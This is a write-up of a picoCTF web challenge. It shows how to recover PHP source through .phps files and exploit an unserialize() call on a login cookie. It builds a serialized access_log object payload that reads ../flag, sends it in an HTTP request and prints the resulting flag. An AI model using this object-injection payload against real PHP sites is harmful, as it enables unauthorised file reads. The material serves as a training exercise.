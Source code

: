 # Solution

Website uses PHP. There are 2 main indicators.

```
1. From the Cookie PHPSESSID: 

2. From submitting the form, we get redirected to /index.php
```

Let's check the robots.txt file.

```
User-agent: *
Disallow: /admin.phps
```

Normally `php` files are interpreted and the source code is not found in the page. But a `phps` file contains the color-formatted content of the script, and will be shown in the html served.

So try requesting `/index.phps`.

```php
// index.phps
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```

PHP code is visible (Output is truncated to only include code). Let's do the same for `cookie.phps` and `authentication.phps`.

```php
// cookie.phps
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

In `cookie.phps`, is_guest and is_admin checks user credentials in an SQLite database. And the strings are first sanitized before creating the query. Hence there are no SQL injections here.

But an interesting find is this

```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```

If `login` is present in the HTTP cookie, we are unserialize it's contents and expect it to be a valid permissions object. This is a red flag, as we can affect how the code runs if we provide a malformed `login` value.

As there's nothing more we can do without further info, let's continue by looking at `authentication.phps` next.

```php
// authentication.phps
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```

`$access_log->__toString()` is an object that will read contents from a file and return it. We can use this method to read contents from `../flag`.

Remember the deserialization part in `cookie.phps`? We can abuse the fact that php calls the `__toString()` method of an object when an error occurs to print the results in our flag.

To do that, we need to do the opposite of the code below.
```php
unserialize(base64_decode(urldecode($_COOKIE["login"])));
```

Serialized value can be computed below
```php
$val = urlencode(base64_encode(serialize(new access_log("../flag"))));
echo($val);     // TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

Let's call `authentication.phps` with our login cookie.

```
GET http://mercury.picoctf.net:2148/authentication.phps

Host: mercury.picoctf.net:2148
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

Nothing noteworthy happens. This is because `phps` file only shows the formatted php code but does not execute it.

We need to send this to `authentication.php`. And our flag is shown below.

```
Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_8db8f85c}
```